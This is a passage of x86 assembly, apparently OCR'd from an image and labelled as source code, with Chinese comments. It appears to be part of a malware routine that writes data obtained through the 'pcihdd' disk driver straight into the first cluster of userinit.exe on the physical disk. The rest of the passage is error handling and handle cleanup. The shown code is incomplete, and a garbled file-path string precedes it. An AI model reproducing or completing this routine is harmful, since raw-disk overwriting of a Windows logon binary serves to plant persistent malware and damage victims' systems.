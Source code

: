 ;并将pcihdd返回的数据直接写入userinit.exe的第一簇
push  0    ; lpOverlapped
lea  eax, DistanceToMoveHigh
push  eax    ; lpNumberOfBytesWritten
push  nNumberOfBytesToWrite ; nNumberOfBytesToWrite
push  lpBuffer  ; lpBuffer
push  hFile    ; hFile
call  WriteFile

push  hFile  ; hFile
call  FlushFileBuffers
mov  dwRet, 0
jmp  OVER

ALLOCMEMORYFAILED:
   ; "分配内存不成功"
mov  dwRet, offset aFCJ

OVER:      ; hMem
push  lpBuffer
call  GlobalFree
jmp  FINISHED

DIFF:
mov  dwRet, offset ERR1
jmp  FINISHED

NTFS:
mov  dwRet, offset ERR2
jmp  FINISHED

NOTACTIVEDISK:
mov  dwRet, offset ERR3

FINISHED:    ; hObject
push  hFile
call  CloseHandle
jmp  OPENPHYSICSFAILED

FEIHUA:
mov  dwRet, offset ERR4

OPENPHYSICSFAILED: ;打开硬盘设备失败
jmp  ExtentCountIsZero

DeviceIoControlFailed:
mov  dwRet, offset ERR5

ExtentCountIsZero:
cmp  hObject, 0
jz  ZeroObject
push  hObject  ; hObject
call  CloseHandle
jmp  ZeroObject

CreateUserInitFileFailed:
mov  dwRet, offset ERR6
